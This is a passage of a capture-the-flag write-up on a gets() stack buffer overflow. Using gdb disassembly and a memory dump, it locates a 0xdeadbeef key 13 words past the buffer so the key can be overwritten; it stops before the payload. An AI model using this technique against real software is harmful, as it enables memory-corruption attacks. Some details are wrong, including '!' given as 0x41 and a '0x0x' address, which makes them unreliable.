 We want to target the `key == 0xcafebabe` comparison, in which `key` was previously defined in the code as `0xdeadbeef`; since it is referenced after `gets()` fills the `overflowme` buffer without a proper length check, we can use that to mangle memory and force the right side of the comparison to be equal to `key`.

With `(gdb) disas func` we can find the address of that comparison:

```text
Dump of assembler code for function func:
   0x565561cd <+0>:	push   %ebp
   0x565561ce <+1>:	mov    %esp,%ebp
   0x565561d0 <+3>:	push   %ebx
   0x565561d1 <+4>:	sub    $0x34,%esp
   0x565561d4 <+7>:	call   0x565560d0 <__x86.get_pc_thunk.bx>
   0x565561d9 <+12>:	add    $0x2e27,%ebx
   0x565561df <+18>:	mov    %gs:0x14,%eax
   0x565561e5 <+24>:	mov    %eax,-0xc(%ebp)
   0x565561e8 <+27>:	xor    %eax,%eax
   0x565561ea <+29>:	sub    $0xc,%esp
   0x565561ed <+32>:	lea    -0x1ff8(%ebx),%eax
   0x565561f3 <+38>:	push   %eax
   0x565561f4 <+39>:	call   0x56556030 <printf@plt>
   0x565561f9 <+44>:	add    $0x10,%esp
   0x565561fc <+47>:	sub    $0xc,%esp
   0x565561ff <+50>:	lea    -0x2c(%ebp),%eax
   0x56556202 <+53>:	push   %eax
   0x56556203 <+54>:	call   0x56556040 <gets@plt>
   0x56556208 <+59>:	add    $0x10,%esp
   0x5655620b <+62>:	cmpl   $0xcafebabe,0x8(%ebp)    // <== Here's the key
```

Once we've found the address of the comparison, let's inspect further:

+ Set the breakpoint: `(gdb) break *0x0x5655620b`
+ Continue execution: `(gdb) c`
+ Feed some recognizable chars to the buffer (`!` is, for example, 0x41 in ASCII)
+ Check that we're inspecting the right buffer: `p overflowme`
+ Inspect the memory as hex words: `x/16x overflowme`

I've fed a bunch of `!`s as input, so my memory will contain easily spottable `0x21`s - let's view 16 hex words from the `overflowme` variable on:

```text
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0xf7f8ee00	0x00000000
0xffffcebc:	0x7029cb00	0xf7f8f3bc	0x00000000	0xffffcee8
0xffffcecc:	0x56556279	0xdeadbeef	0xffffcf94	0xffffcf9c
```

Here they are! Notice anything else? The `0xdeadbeef` key used for the comparison is located 13 words _(13 * 4 bytes)_ after the start of the `overflowme` buffer, let's see if we can overwrite it. _Note: Python helps us with quick strings manipulations, but v3 doesn't handle hex strings as v2 did so I've used `echo -e` as a quick & dirty workaround._
